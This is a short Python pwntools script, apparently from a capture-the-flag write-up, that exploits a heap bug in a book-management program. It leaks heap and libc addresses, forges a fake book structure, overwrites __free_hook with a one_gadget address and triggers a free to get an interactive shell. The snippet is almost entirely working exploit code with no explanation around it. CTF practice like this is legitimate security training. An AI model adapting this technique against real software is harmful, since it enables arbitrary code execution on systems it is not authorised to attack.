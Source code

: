 ```python
book1_addr=ShowBooks()
book1_addr=u64(book1_addr[85:91].ljust(8,'\x00'))
print(hex(book1_addr))
fake_book1 = p64(1) + p64(book1_addr + 0x38) + p64(book1_addr + 0x40) + p64(0xffff)
EditBook(1,fake_book1)
ChangeAuthName("N0P3aaaabbbbbbbbccccccccdddddddd")
Raw=ShowBooks()
print(Raw)
book2_name_addr=u64(Raw[12:18].ljust(8,'\x00'))
print("NameAddr: "+hex(book2_name_addr))
book2_desc_addr=u64(Raw[32:38].ljust(8,'\x00'))
print("DescAddr: "+hex(book2_desc_addr))
#context.terminal = ['tmux','splitw','-v']
#gdb.attach(res)
#print(hex(book2_desc_addr-0x00007ffff79e4000))#0x5b1010
libc_addr=book2_desc_addr-0x5b1010#取得libc基地址
free_hook=libc_addr+libc.symbols['__free_hook']
print(hex(libc.symbols['__free_hook']))
print("free_hook:"+hex(free_hook))
MagicShell=libc_addr+0x4f3c2
EditBook(1,p64(free_hook))
print("Free_hook done")
res.recvuntil('> ')
EditBook(2,p64(MagicShell))
DeleteBook(2)
print("Shell:")
res.interactive()
```

